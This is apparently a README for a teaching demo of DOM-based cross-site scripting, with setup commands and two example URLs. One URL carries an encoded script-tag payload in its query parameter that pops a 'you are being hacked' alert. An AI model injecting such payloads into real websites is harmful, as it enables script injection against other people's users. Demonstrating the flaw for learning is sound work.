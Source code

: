 # Run server

```
npm i
node index.js
```
Dom-based XSS
Normal URL: localhost:3000/index.html?context=Thomas
![Normal](./assets/dom-based-normalusage.png)
Malicious URL: localhost:3000/index.html?context=%3Cscript%3Ealert%28%22LEAVE+THIS+PAGE%21+YOU+ARE+BEING+HACKED%21%22%29%3B%3C%2Fscript%3E
![Malicious](./assets/dom-based-malicious.png)